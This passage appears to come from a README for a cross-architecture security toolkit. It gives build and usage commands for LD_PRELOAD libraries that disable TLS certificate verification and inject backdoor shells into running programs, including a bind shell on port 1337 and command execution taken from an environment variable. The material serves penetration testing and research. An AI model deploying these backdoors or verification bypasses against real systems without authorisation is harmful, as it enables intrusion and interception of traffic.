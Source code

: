```bash
./build libdesock --arch x86_64
LD_PRELOAD=./output-preload/glibc/x86_64/libdesock.so ./network_app
```

#### tls-noverify  
**TLS verification bypass** - Disable SSL/TLS certificate verification.

```bash
./build tls-noverify --arch aarch64
LD_PRELOAD=./output-preload/glibc/aarch64/libtlsnoverify.so curl https://expired.badssl.com/
```

### Shell Libraries

#### shell-bind / shell-env / shell-helper / shell-reverse / shell-fifo
**Runtime shell injection** - LD_PRELOAD libraries for backdoors and shells.

```bash
./build shell-bind --arch arm32v7le

# Bind shell on port 1337
SHELL_BIND_PORT=1337 LD_PRELOAD=./output-preload/glibc/arm32v7le/shell-bind.so ./target_app

# Execute from environment variable
EXEC_CMD="id" LD_PRELOAD=./output-preload/glibc/arm32v7le/shell-env.so ./target_app
```

## Build Options

### Standard Build
```bash
./build                           # All tools, all architectures
./build strace                    # strace for all architectures  
./build --arch arm32v7le          # All tools for arm32v7le
./build strace --arch x86_64      # strace for x86_64
```

### Debug Build
```bash  
./build -d strace --arch x86_64   # Verbose build output
```

### Architecture Detection
```bash
# Detect target architecture
arch=$(uname -m)
libc=$(ldd --version 2>&1|grep -qi musl && echo musl || echo glibc)  
echo "Detected: $arch/$libc"
```